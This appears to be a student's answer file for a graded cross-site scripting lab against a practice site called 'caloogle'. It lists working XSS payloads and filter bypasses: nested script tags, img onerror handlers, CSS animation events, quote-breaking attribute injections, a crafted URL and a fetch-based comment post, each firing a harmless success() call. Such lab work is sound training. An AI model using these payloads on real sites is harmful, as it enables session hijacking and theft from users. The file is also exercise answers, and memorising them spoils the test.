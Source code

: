 # 0. Welcome

N/A

# 1. A Truly Disruptive Startup (3 points)

```
<script>success()</script>
```

# 2. No Script Allowed (3 points)

```
script<script>success()</script>
```

# 3. One More Time, Like You Mean It (3 points)

```
 <sscriptcript>success()</sscriptcript>
```

# 4. An Open-and-Shut Case (3 points)

```
 <img src=x onerror=success()>
```

# 5. Time to Mix Things Up (3 points)

```
 <img src=x onerror=success()>

```

# 6. A Picture is Worth a Thousand Words (3 points)

```
<style>@keyframes x{}</style><xss style="animation-name:x" onanimationend="success()"></xss>

```

# 7. Between a Rock And a Hard Place (3 points)

```
<style>@keyframes x{}</style><xss style="animation-name:x" onanimationend="success()"></xss>

```

# 8. Angle of Death (6 points)

Attack input:

```
<<script>>success()</script>

```

Server code:

```js
router.get('/search', async (req, res) => {
  let q = req.query.q
  if (q == null) q = ''

  // TODO: Replace this with your solution.
  // q = ???

  const results = await getResults(q)
  res.render('caloogle-search-page', { q, results })
})
```

# 9. All in a Day's Work

N/A

# 10. In the Wrong Place at the Wrong Time (3 points)

```
" onload=success() "

```

# 11. You Can't Win 'em All (6 points)

Attack input:

```
"" onload=success() "

```

Server code:

```js
router.get('/search', async (req, res) => {
  let q = req.query.q
  if (q == null) q = ''

  // TODO: Replace this with your solution.
  // q = ???

  const results = await getResults(q)
  res.render('caloogle-search-page', { q, results })
})
```

# 12. When All is Said and Done (6 points)

Attack input:

```
' onload =success()

```

Server code:

```js
router.get('/search', async (req, res) => {
  let q = req.query.q
  if (q == null) q = ''

  // TODO: Replace this with your solution.
  // q = ???

  const results = await getResults(q)
  res.render('caloogle-search-page', { q, results })
})
```

# 13. When You Want a Job Done Right

N/A

# 14. Here Today and Gone Tomorrow (3 points)

Attack URL:

```
http://caloogle.xyz:4140/search?lang=az%20%27%20onload=success()

```

# 15. The Early Bird Catches the Worm (3 points)

```
</script><script>success()</script>

```

# 16. Tying Up Loose Ends (3 points)

```
<<//script><script>success()<<//script>

```

# 17. Take a Page Out of Their Book (6 points)

Attack code:

```

window.fetch('/comment', {
  method: 'POST',
  headers: { 'Content-Type': 'application/json'},
  body: JSON.stringify({text:'success()', id:1})
}).then((response) => response.json())
.then((responseJsonData) => {
  success();
  console.log(responseJsonData)
})

```

# 18. Congrats

N/A

# Survey responses (3 points)

Write your survey responses in SURVEY.md!
